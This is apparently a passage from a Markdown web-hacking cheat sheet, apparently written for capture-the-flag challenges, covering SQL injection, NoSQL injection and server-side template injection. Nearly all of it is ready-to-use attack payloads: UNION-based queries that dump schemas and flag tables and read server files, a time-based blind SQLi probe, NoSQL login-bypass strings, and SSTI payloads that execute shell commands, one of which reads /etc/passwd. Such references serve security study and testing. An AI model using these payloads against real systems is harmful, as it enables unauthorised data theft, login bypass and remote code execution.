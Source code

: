     - `-r` Request file
    - `-D` Select DB
    - `-T` Select Table

### manual:
- `admin' union select 1;-- -`
- FIND ALL DBS:
  `admin' UNION SELECT group_concat(schema_name) FROM information_schema.schemata;-- -`
- FIND TABLES IN DB:
  `admin' UNION SELECT group_concat(table_name) FROM information_schema.tables where table_schema='november';-- -`
- FIND COLUMNS IN TABLE:
  `admin' UNION SELECT group_concat(table_name, ':', column_name) FROM INFORMATION_SCHEMA.columns WHERE table_schema='november';-- -`
- FIND VALUES:
  `admin' UNION SELECT group_concat(one) FROM flag;-- -`
- READ FILES:
  `admin' UNION SELECT load_file('/var/www/html/index.php');-- -`

### manual time based:
- FIND DB NUMBER OF CHARACTERS:
- `1%20OR%20IF(LENGTH((SELECT%20database()))=5,SLEEP(1),0)%23`

## NOSQL INJECTION(NOSQLI)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection)
- [PayLoads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

### manual:
```
"change content type to application/json"
{"username": {"$ne": null}, "password": {"$ne": null}}
```

- `admin' || '' === '` Bypass login page with admin as user`
- `';return 'a'=='a' && ''==' -` Extract all data

## Server Side Template Injection(SSTI)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#constructing-a-server-side-template-injection-attack)
- [PayLoads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [PayLoads 2](https://github.com/payloadbox/ssti-payloads)
- [YouTube](https://www.youtube.com/watch?v=Ce6FGus9UYk&ab_channel=BePractical)

### Payloads:
- `${{<%[%'"}}%\.`
- `{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}`
- `{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}` nodeJS
